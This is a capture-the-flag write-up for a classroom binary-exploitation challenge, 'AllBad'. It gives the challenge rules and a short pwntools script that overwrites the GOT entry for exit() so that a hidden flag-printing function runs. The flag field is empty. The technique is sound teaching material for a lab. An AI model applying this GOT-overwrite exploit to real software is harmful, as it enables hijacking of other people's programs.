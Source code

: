 # AllBad
### Description
Can you make the angry man express himself?

### Rules
- Do not patch this binary.
- Do not modify or delete the temp file.
- You MUST solve the challenge by providing valid inputs.
- You CANNOT just jump with the debugger to any function that directly prints the flag.
- If you think you're breaking these rules with your solution, please ask the teachers.

## Solution
Using ida we see that the main function does nothing. But we noticed `give_the_man_a_guitar()` function. What we can do is ovveride the pointer to `exit()` to point to  `give_the_man_a_guitar()` function, so that when `exit(0)` is called at the end, it actually calls the other function.

```python
from pwn import *

elf = ELF('./vuln')

r = process('./vuln')
r.sendline(b'y')
r.sendline(str(elf.functions['give_the_man_a_guitar'].address))
r.sendline(str(elf.got['exit']))
```

### Flag
```plain

```
